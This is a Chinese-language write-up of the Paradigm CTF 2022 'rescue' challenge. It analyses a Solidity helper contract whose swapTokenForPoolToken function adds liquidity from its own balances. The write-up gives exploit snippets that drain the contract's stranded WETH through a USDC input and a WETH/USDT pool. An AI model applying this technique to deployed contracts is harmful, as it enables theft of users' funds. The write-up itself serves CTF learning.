

# rescue

>  I accidentally sent some WETH to a contract, can you help me?

## 题目分析

```solidity
contract Setup {
    
    WETH9 public constant weth = WETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    MasterChefHelper public immutable mcHelper;

    constructor() payable {
        mcHelper = new MasterChefHelper();
        weth.deposit{value: 10 ether}();
        weth.transfer(address(mcHelper), 10 ether); // whoops
    }

    function isSolved() external view returns (bool) {
        return weth.balanceOf(address(mcHelper)) == 0;
    }
    
}
```

`MasterChefHelper`合约中有10个`WETH`代币，题目要求我们把`MasterChefHelper`合约中的`WETH`全部转出。

而`MasterChefHelper`合约中只有一个非`view`函数，即`swapTokenForPoolToken`函数。

```solidity
function swapTokenForPoolToken(uint256 poolId, address tokenIn, uint256 amountIn, uint256 minAmountOut) external {
        (address lpToken,,,) = masterchef.poolInfo(poolId);
        address tokenOut0 = UniswapV2PairLike(lpToken).token0();
        address tokenOut1 = UniswapV2PairLike(lpToken).token1();

        ERC20Like(tokenIn).approve(address(router), type(uint256).max);
        ERC20Like(tokenOut0).approve(address(router), type(uint256).max);
        ERC20Like(tokenOut1).approve(address(router), type(uint256).max);
        ERC20Like(tokenIn).transferFrom(msg.sender, address(this), amountIn);

        // swap for both tokens of the lp pool
        _swap(tokenIn, tokenOut0, amountIn / 2);
        _swap(tokenIn, tokenOut1, amountIn / 2);

        // add liquidity and give lp tokens to msg.sender
        _addLiquidity(tokenOut0, tokenOut1, minAmountOut);
    }
```

该`swapTokenForPoolToken`函数接受4个参数：

- poolId：查询[`SushiSwap`的`MasterChef`合约](https://etherscan.io/address/0xf942dba4159cb61f8ad88ca4a83f5204e8f4a6bd)中的流动池对应的`lpToken`的编号
- tokenIn：要转入合约中的代币合约地址
- amountIn：要转入合约中代币的数量
- minAmountOut：获得对应`lpToken`的最小数量

函数的功能是将用户指定的代币`tokenIn`，使用`SushiSwap`的`UniswapV2Router02`的swap功能兑换出指定`poolId`流动池的两种代币（各自兑换`amountIn`一半数量），然后再将兑换出的代币再加入到流动中。


## 解题思路

题目最后要求我们将`MasterChefHelper`合约中的`WETH`代币余额变为0。我们可以通过`swapTokenForPoolToken`函数将`MasterChefHelper`合约拥有的`WETH`代币与另外一种代币重新注入流动性。以此将`MasterChefHelper`合约拥有的`WETH`代币全部转走。

关键就变成了在`_addLiquidity(tokenOut0, tokenOut1, minAmountOut)`时，保证`tokenOut0`或` tokenOut1`中有一个是`WETH`代币，并且另一种代币的数量要保证至少可以全部消耗完`WETH`代币（保证另一种代币的数量按比例大于10`WETH`的数量就好）。

另外，还要保证`tokenIn`代币不能与上述的另一种代币是一种代币。因为`UniswapV2Library`合约的`sortTokens`函数要求`require(tokenA != tokenB, 'UniswapV2Library: IDENTICAL_ADDRESSES')`

所以，我使用`usdc`和`usdt`以及`weth`三种代币完成。

我先兑换出足够消耗10个`weth`的`usdt`。用12个`weth`是以防万一不够。

```solidity
// 用12weth换出usdt，给mcHelper
path[0] = address(weth);
path[1] = usdt;
router.swapExactTokensForTokens(
	12 ether,
	0,
	path,
	address(mcHelper),
	block.timestamp
);
```

然后再兑换出一些`usdc`，数量无所谓，反正最后注入流动性的是`usdt`和`weth`。

```solidity
// 用1weth换出usdc，给本合约
path[0] = address(weth);
path[1] = usdc;
router.swapExactTokensForTokens(
	1 ether,
	0,
	path,
	address(this),
	block.timestamp
);
```

最后，去查下weth和usdt的池子的编号是多少？，结果是0。（写个脚本或者手动查查，不难查）

```solidity
uint256 usdcAmountIn = 50 * 10 ** 6;//数量随意，注意下代币精度就行
mcHelper.swapTokenForPoolToken(0, usdc, usdcAmountIn, 0);// minAmountOut是0，因为我们只需要把weth转走就好，至于lptoken要多少，无所谓
```




## 参考资料

https://github.com/paradigmxyz/paradigm-ctf-2022

[PARADIGM CTF 2022题目分析(1)-resuce分析](https://mp.weixin.qq.com/s?__biz=Mzg4MDcxNTc2NA==&mid=2247483840&idx=1&sn=182d06a3ca05d2a33c2dad20f8f494e9&chksm=cf71b35bf8063a4da78d083b81014754aaf2db565d70bdb354aea93ff80c5c9e1b014902eb4e&scene=178&cur_album_id=2556040001080557569#rd)